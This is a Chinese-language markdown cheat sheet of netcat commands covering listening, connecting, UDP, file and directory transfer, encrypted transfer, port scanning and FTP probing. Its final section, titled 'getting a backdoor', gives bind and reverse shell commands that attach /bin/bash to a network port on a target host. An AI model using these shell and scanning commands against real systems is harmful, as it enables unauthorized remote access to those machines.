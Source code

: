 # NC用法集锦

## 监听入站连接

```shell
nc -lp 333
```

## 连接远程系统

```shell
nc -v 192.168.101.2 333
```

## 监听UDP端口

```shell
nc -lup 1234
```

## 连接UDP端口

```shell
nc -vu 192.168.101.2 1234
```

## 聊天工具

```shell
nc -lp 333
nc -v 192.168.101.2 333
```

## 拷贝文件

> nc远程拷贝文件没有多大意义，所有远程文件的传输，用的都是ssh,telnet，ftp等等。
>
> 这些文件拷贝工具。
>
> 唯一意义的是：如果远程主机上没有这工具，只能用nc

```shell
nc -lp 333>helloworld.txt

nc -nv 192.168.101.2 333<test.txt
#传输完成后自动结束
nc -nv -q 0 192.168.101.2 333<test.txt

#尝试传输图片和视频
```

## 拷贝目录

```shell
#打包
tar -cvf - 目录名称/|nc -lp 333 -q 1

#解包
nc -nv 192.168.101.2 333|tar -xvf -
```

## 电子取证（信息收集）

```shell
ls -a|nc -lp 333

nc -nv 192.168.101.101 333
```

## 加密传输

```shell
nc -lp 333|mcrypt - -flush -Fbqd -a rijndael-256 -m ecb >文件名

mcrypt --flush -Fbq -a rijndael-256 -m ecb <文件名|nc -nv 192.168.101.101 333 -q 1
```

## 端口扫描

```shell
nc -nvz 192.168.101.101 1-65535
```

## 匿名探测

```shell
#ftp探测
nc -nvz 192.168.101.101 21
```

## 偷听日志

```shell
nc -lp 333>log.txt
```

## 获取后门

```shell
#--------正向后门-------
##本机
nc 192.168.101.101 333
##目标主机
nc -lp 333 -e /bin/bash

#---------反向后门-------
##本机
nc -lp 333
##目标主机
nc 192.168.101.2 333 -e /bin/bash
```

